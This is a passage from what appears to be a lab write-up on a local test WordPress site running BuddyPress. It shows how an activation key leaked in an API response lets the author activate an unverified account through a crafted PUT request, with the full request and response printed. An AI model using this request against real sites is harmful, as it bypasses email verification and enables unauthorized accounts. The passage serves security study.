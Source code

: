 


Please note, this account has not been activated* by email yet we have received an activation_key via the response from the previous request… Interesting.
 

Let's check what other endpoints are of interest?
 
On the buddypress rest api docs, if you scroll down only 2 divs you can find an activation endpoint. Who wrote this code?
 
![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/5.png?raw=true)
 
 
 
 
 
 
 
 

Lets craft a request for this endpoint to try and activate the account we just made.
Request
``` 
PUT /wp-json/buddypress/v1/signup/activate/tg2WcJEbkzRnOBwwRjzPDYN05qpJPL1L HTTP/1.1
HOST: 192.168.0.16:7006
Content-Length: 0
Content-Type: application/json; charset=UTF-8

{
}
```
Response
``` 
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 20:57:16 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.21
X-Robots-Tag: noindex
Link: <http://192.168.0.16:7006/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Content-Length: 266
Content-Type: application/json; charset=UTF-8


[{"id":7,"user_login":"test2","registered":"2023-01-11T20:45:36","user_name":"test2","activation_key":"tg2WcJEbkzRnOBwwRjzPDYN05qpJPL1L","user_email":"test2@test.com","date_sent":"2023-01-11T20:45:36","count_sent":1,"meta":{"field_1":"test2","profile_field_ids":1}}]
```
 
 
 
 
 
 

Let's try to login… Success. But we are not admin. This far we have only tested if the endpoints will allow account creation, and the fact the verification step was so easy to bypass that it is worth investigating further what exists?
 